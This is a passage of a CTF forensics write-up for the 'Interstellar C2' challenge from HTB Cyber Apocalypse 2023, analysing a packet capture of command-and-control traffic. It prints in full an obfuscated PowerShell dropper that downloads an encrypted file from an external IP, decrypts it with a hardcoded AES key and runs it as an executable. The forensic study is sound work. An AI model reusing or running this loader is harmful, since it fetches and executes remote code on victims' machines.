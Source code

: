 ```yaml
---
layout: post
title: "HTB Cyber Apocalypse CTF 2023- Interstellar C2 [Forensic]"
categories: ctf
tags: forensics blast_o mz4b
date: 2023-03-24 10:00:00 +0100
author: blast_o, mz4b
---
```


# Interstellar C2 - Difficulty: hard
 `We noticed some interesting traffic coming from outer space. An unknown group is using a Command and Control server. After an exhaustive investigation, we discovered they had infected multiple scientists from Pandora's private research lab. Valuable research is at risk. Can you find out how the server works and retrieve what was stolen?`

## .pcap Analysis
We are given a pcap file "challenge.pcapng"

The .pcap capture shows HTTP communication between IP 192.168.25.140 and IP 64.226.84.200, presumably containing the C2 communication referenced in the challenge.


Analyzing the HTTP objects we are able to extract what looks like encrypted data, some malformed PNGs and a .ps1 script.


## PS1 dropper
We proceed by inspecting said ps1 script ( `vn84.ps1` ):

```powershell
  .("{1}{0}{2}" -f'T','Set-i','em') ('vAriA'+'ble'+':q'+'L'+'z0so')  ( [tYpe]("{0}{1}{2}{3}" -F'SySTEM.i','o.Fi','lE','mode')) ;  &("{0}{2}{1}" -f'set-Vari','E','ABL') l60Yu3  ( [tYPe]("{7}{0}{5}{4}{3}{1}{2}{6}"-F'm.','ph','Y.ae','A','TY.crypTOgR','SeCuRi','S','sYSte'));  .("{0}{2}{1}{3}" -f 'Set-V','i','AR','aBle')  BI34  (  [TyPE]("{4}{7}{0}{1}{3}{2}{8}{5}{10}{6}{9}" -f 'TEm.secU','R','Y.CrY','IT','s','Y.','D','yS','pTogrAPH','E','CrypTOSTReAmmo'));  ${U`Rl} = ("{0}{4}{1}{5}{8}{6}{2}{7}{9}{3}"-f 'htt','4f0','53-41ab-938','d8e51','p://64.226.84.200/9497','8','58','a-ae1bd8','-','6')
${P`TF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
.("{2}{1}{3}{0}"-f'ule','M','Import-','od') ("{2}{0}{3}{1}"-f 'r','fer','BitsT','ans')
.("{4}{5}{3}{1}{2}{0}"-f'r','-BitsT','ransfe','t','S','tar') -Source ${u`Rl} -Destination ${p`Tf}
${Fs} = &("{1}{0}{2}" -f 'w-Ob','Ne','ject') ("{1}{2}{0}"-f 'eam','IO.','FileStr')(${p`Tf},  ( &("{3}{1}{0}{2}" -f'lDIt','hi','eM','c')  ('VAria'+'blE'+':Q'+'L'+'z0sO')).VALue::"oP`eN")
${MS} = .("{3}{1}{0}{2}"-f'c','je','t','New-Ob') ("{5}{3}{0}{2}{4}{1}" -f'O.Memor','eam','y','stem.I','Str','Sy');
${a`es} =   (&('GI')  VARiaBLe:l60Yu3).VAluE::("{1}{0}" -f'reate','C').Invoke()
${a`Es}."KE`Y`sIZE" = 128
${K`EY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${a`ES}."K`EY" = ${K`EY}
${A`es}."i`V" = ${i`V}
${cS} = .("{1}{0}{2}"-f'e','N','w-Object') ("{4}{6}{2}{9}{1}{10}{0}{5}{8}{3}{7}" -f 'phy.Crypto','ptogr','ecuri','rea','Syste','S','m.S','m','t','ty.Cry','a')(${m`S}, ${a`Es}.("{0}{3}{2}{1}" -f'Cre','or','pt','ateDecry').Invoke(),   (&("{1}{2}{0}"-f 'ARIaBLE','Ge','T-V')  bI34  -VaLue )::"W`RItE");
${f`s}.("{1}{0}"-f 'To','Copy').Invoke(${Cs})
${d`ecD} = ${M`s}.("{0}{1}{2}"-f'T','oAr','ray').Invoke()
${C`S}.("{1}{0}"-f 'te','Wri').Invoke(${d`ECD}, 0, ${d`ECd}."LENg`TH");
${D`eCd} | .("{2}{3}{1}{0}" -f'ent','t-Cont','S','e') -Path "$env:temp\tmp7102591.exe" -Encoding ("{1}{0}"-f 'yte','B')
& "$env:temp\tmp7102591.exe"

```
